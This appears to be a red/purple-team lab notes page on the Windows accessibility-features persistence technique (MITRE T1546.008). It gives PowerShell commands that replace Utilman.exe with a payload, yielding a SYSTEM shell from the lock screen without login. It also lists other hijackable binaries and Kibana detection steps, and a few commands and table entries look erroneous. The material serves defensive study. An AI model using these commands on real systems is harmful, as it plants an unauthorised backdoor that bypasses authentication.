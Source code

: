 # [Accessibility Features](https://attack.mitre.org/techniques/T1546/008/)

## **Exploit syntax:**

1. Get a beacon with `system` privileges. 

2. Put a payload on the victim box if it's not already present.

3. In parrot open a blank text file and paste the following commands into it and choose either to move or copy the payload on the third line then set the `<payload path>` to the payload location on the victim box
   
    ```powershell
    takeown /f c:\windows\system32\Utilman.exe /A;
	icacls c:\windows\system32\Utilman.exe /grant administrators:F;
	<move/copy> <payload path> c:\windows\system32\Utilman.exe;
    ```
4. Save the file with as` NoobNoob.ps1` to `/tmp` on parrot-vm
5. Run
	```sh
	sudo chmod +x /tmp/NoobNoob.ps1
	```

6.  In posh, run
    ```pwoershell
	pslo /tmp/NoobNoob.ps1
    ```
7. From the login lockscreen of the windows box, press the windows key and 'U'
and the payload will execute. No login is required. Should give you System privileges.   

  
### **Affected Programs**
| Description        | Executable        | Keyboard Shortcut         |
|--------------------|-------------------|---------------------------|
| Sticky Keys        | sethc.exe         | Shift 5 times             |
| On-Screen Keyboard | osk.exe           | Windows + Control + U     |
| Utility Manager    | utilman.exe       | Windows + U               |
| Display Switcher   | DisplaySwitch.exe | Windows + P               |
| App Switcher       | AtBroker.exe      | Alt + Tab                 |
| Magnifier          | Magnify.exe       | Windows + +               |
| Narrator           | Narrator.exe      | Windows + Control + Enter |


---

## **Detection Technique:**

* Observe common Windows Accessibility Features executables
	* sethc.exe 
	* Utilman.exe
	* osk.exe
	* Narrator.exe
	* Magnify.exe
* Within Kibana ( Using winlogbeat-* indices ):
	* Identify process creations by filtering `event.code: 1`
	* Add relevant fields to columns for search ease.
	* Correlate the `process.name` / `process.id` fields with the `process.parent.name` / `process.parent.id` fields.
	* Look at the `process.command_line` to see what the process actions were, if any.

---

## **Resources**

* https://dmfrsecurity.com/2021/09/10/accessibility-features-persistence/ 
* https://www.ired.team/offensive-security/persistence/t1015-sethc

### **Execution and Detection method explained**
* https://en.it-pirate.eu/windows-defender-atp-sticky-keys-binary-hijack-detected/